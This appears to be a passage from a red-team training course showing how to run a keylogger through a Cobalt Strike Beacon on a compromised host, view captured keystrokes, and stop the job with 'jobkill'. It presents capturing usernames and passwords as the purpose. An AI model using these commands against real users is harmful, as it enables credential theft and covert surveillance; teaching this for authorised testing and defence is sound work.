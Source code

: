 A keylogger can capture the keystrokes of a user, which is especially useful for capturing usernames, passwords and other sensitive information.
```
beacon> keylogger
[+] received keystrokes from *Untitled - Notepad by bfarmer
```
  

All keystrokes can be seen at _View > Keystrokes_.

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/c6d/013/c33/keylogger.png)

  

The keylogger runs as a job that can be stopped with the `jobkill` command.
```
beacon> jobs
[*] Jobs

 JID  PID   Description
 ---  ---   -----------
 6    0     keystroke logger

beacon> jobkill 6
```